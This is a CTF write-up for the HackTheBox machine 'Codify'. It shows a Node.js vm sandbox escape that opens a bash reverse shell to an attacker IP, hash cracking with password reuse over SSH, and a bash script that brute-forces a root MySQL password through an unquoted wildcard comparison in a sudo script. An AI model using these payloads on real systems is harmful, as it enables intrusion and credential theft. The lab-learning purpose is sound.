



## Writeup for Codify from HackTheBox

First an nmap scan was performed, using `nmap -sC -sV <IP>`, on the target machine which returned this output:

```bash
Nmap scan report for 10.10.11.239
Host is up (0.29s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The output scan revealed a domain name: codify.htb, which was added to /etc/hosts.

When visiting the website, the site seems to contain a code editor which allows for execution of NodeJS code inside a sandbox environment. In order to obtain a reverse shell from this code execution, first it must be seen which modules the user is allowed to import and use. For example, the "fs" module, which is used for reading files, was not allowed to be imported. 





Similarly, the module "child_process" was also not allowed to be imported. Hence, research was then done on Google to see which other modules can be used for code execution. Eventually an appropriate payload was found on this site: https://github.com/aadityapurani/NodeJS-Red-Team-Cheat-Sheet.


Back to the code editor, it was found that the "vm" module was not prohibited, however, it can be exploited to achieve code execution. The final payload used to obtain a reverse shell was this:


```javascript
const vm = require('vm')

const xyz = vm.runInNewContext(`const process = this.constructor.constructor('return this.process')(); process.mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/<IP>/443 0>&1"').toString()`);
```





After starting a netcat listener on port 443 and running the above code, a reverse shell was obtained as the user "svc". Looking inside the /home directory, it can be seen that the machine also contains the user "joshua".


The next step was to check the website's source code found within `/var/www`, which may contain more information that can be used to escalate privileges horizontally to the "joshua" user. Upon visiting `/var/www`, a "contact" directory was found and inside that directory was the file "tickets.db".

When outputting the file contents of `/var/www/contact/tickets.db`, a hash associated with the user "joshua" was found. Using John The Ripper, the hash was later cracked and a plaintext password "spongebob1" was obtained.





 This password may have been for "joshua" to access the database on the backend, however, since users may re-use the same passwords for different accounts, the next step was to check whether it was possible to ssh to the box as "joshua" using the same password.


Using the found credentials to ssh into the box was a success and the user.txt file can now be read.

Next was checking what commands the user "joshua" can run as sudo. This was done by executing `sudo -l`. It was found that "joshua" may execute the script "mysql-backup.sh" as the root user. 


To see whether the script has a vulnerability, the contents of the script was first outputted:


```bash
joshua@codify:/opt/scripts$ cat mysql-backup.sh
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```


It was be seen that the script attempts to prompt the user to enter a password and check that the password matches the root user's mysql password, before backing up the contents of the mysql database. However, the password checking performed was unsafe because quotation marks were not placed around the variable "$DB_PASS".


After some research, it was clear why this was unsafe. This is because without quotation marks, the shell will interpret the contents of $DB_PASS as a pattern matching expression, rather than a string. Hence, when executing the mysql-backup.sh script and entering the wildcard symbol, "*", upon being prompted, the script then tells the user that the password was correct and proceeds to backup the mysql database.


This issue can then be exploited by using the wildcard symbol and brute forcing the root user's mysql password. This can be done by adding a character before the wildcard symbol and providing this as input to the script, such as "k*". If the first letter of the root user's password was "k", then the script outputs that the password was correct. Next, the second character of the password can be guessed by inputting the string "k\<char>*" (where \<char> is an arbitary alphanumeric character), and seeing if the script confirms the password as being correct. If so, then the second letter of the password was found. Upon repeating this process, the full password can be obtained.


Hence a bash script was created to obtain the root user's password:


```bash
password="";

enter_pass_output=$(echo "$password" | sudo $1)

while [[ "$enter_pass_output" != *"Password confirmed!"* ]]; do
	for letter in {a..z} {1..9}; do
    		output=$(echo "$password$letter*" | sudo $1);
    		if [[ "$output" == *"Password confirmed!"* ]]; then
			    password="$password$letter";
			    echo $password;
			    break;
    		fi
	done
		
	enter_pass_output=$(echo "$password" | sudo $1);
done

echo "Final password: $password";
```

Upon executing the script through the command:

`bash script.sh /opt/scripts/mysql-backup.sh 2> /dev/null`

The full password of the root user's mysql account was revealed to be "kljh12k3jhaskjh12kjh3".


When changing to the root user and passing in the obtained password, the user successfully escalates privileges to the root user and can now obtain the root.txt file.


Overall, this box differs greatly from other boxes as it required a good knowledge of scripting in order to solve it. I found this box quite helpful in testing my programming skills and taught me the importance of such a skill in the field of Cybersecurity.